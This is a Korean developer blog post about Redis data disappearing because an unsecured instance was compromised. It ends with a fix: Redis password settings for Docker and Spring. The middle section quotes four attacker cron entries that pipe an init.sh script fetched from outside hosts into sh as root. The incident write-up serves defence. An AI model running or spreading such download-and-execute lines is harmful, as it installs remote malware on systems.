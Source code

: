 ```yaml
---
date: 2023-03-9
title: "TTL 설정 없이도 Redis 저장 내용이 사라진다면"
category :
  - Wealth Marble
permalink: /wealth-marble/TTL 설정 없이도 Redis 저장 내용이 사라진다면/

toc: true
toc_sticky: true
---
```


![](https://velog.velcdn.com/images/kny8092/post/1ab5e216-20ad-43cc-92f4-183e13d10b42/image.png)

분명히 로컬에서 Test 했을 때는 정상적으로 동작했고, 배포 된 서버에 요청을 보냈을 때 Redis에 원하는 값이 저장되는 것을 확인했다.
그런데.. 몇 시간뒤나 다음날 다시 테스트하려고 하면 자꾸 캐싱해둔 내용이 사라져있다...
초면인 backup1 ~ backup4가 있다...
혹시 redis 비밀번호를 따로 설정하지 않았다면

> 누군가 내 작고 소중한 Redis를 몰래 쓰고있다.

이전에 부스트캠프 프로젝트를 하면서 다른 조에서 해킹을 당했었다는 내용을 공유받은 적이 있었는데, 그 당시에는 Redis 사용을 고려하지 않았고 우리 프로젝트는 github star도 많지 않으니 해킹을 당하겠어? 라는 아주 안일한 생각을 하고 있었다.

처음에는 TTL설정 문제인줄 알고 Redis default TTL을 계속 찾아봤다.
하지만 관련 문제는 아니였다.

다음에 했던 것이 Redis에 어떤 command가 날라왔는지 조사를 했는데, 엄청 많은 요청이 계속 들어오고 있었다.
```shell
> redis-cli
> monitor
```
<img src="https://velog.velcdn.com/images/kny8092/post/309d8b55-3815-4705-8cc0-60001ba94c5f/image.png" weight="50%" height="50%">


그제서야 전에 해킹관련 이야기를 들었던 것이 생각이 났고, 찾아보기 시작했다.
(이후에 알았지만 저 명령들은 내 Redis Explorer에서 요청보낸 것..)

### 누구세요

backup에 적힌 내용을 가만히 살펴보니 다음과 같았다.
```shell
*/2 * * * * root cd1 -fsSL http://en2an.top/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://en2an.top/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh
```

주기적으로 스크립트를 다운받아 실행 시키고 있었다.

![](https://velog.velcdn.com/images/kny8092/post/cc49ce32-5227-4e5a-a356-a76687adc4e9/image.png)

ip를 찾아봤을 때 우리나라는 아니였다.. 저 sh을 받아보고 싶었지만, 무슨 위험이 있을지 몰라서 빤히 쳐다보는 일 밖에 할 수 없다...;;

### 외양간 고치기
비밀번호는 다음 명령으로 설정 가능하다.

```shell
# docker container 실행 시 설정
$ docker run --name redis -p 6379:6379 -d redis --requirepass {password}

# docker 내부 접속하여 redis cli 명령을 사용하고 싶을 때
$ docker exec -it redis redis-cli -a {password}
```

```java

@Configuration
public class RedisConfig {

    @Value("${spring.redis.host}")
    private String host;

    @Value("${spring.redis.port}")
    private Integer port;

    @Value("${spring.redis.password}")
    private String password; # 비밀번호 설정 추가

    @Bean
    public RedisConnectionFactory redisConnectionFactory() {
        RedisStandaloneConfiguration redisStandaloneConfiguration = new RedisStandaloneConfiguration();
        redisStandaloneConfiguration.setHostName(host);
        redisStandaloneConfiguration.setPort(port);
        redisStandaloneConfiguration.setPassword(password);
        LettuceConnectionFactory lettuceConnectionFactory = new LettuceConnectionFactory(redisStandaloneConfiguration);
        return lettuceConnectionFactory;
    }
}

```

### 교훈

서버 환경에 배포 시에는 password 설정과 port 허용에 신경쓰자!

---
참고
https://gofnrk.tistory.com/84
http://redisgate.kr/redis/education/redis_hacking.php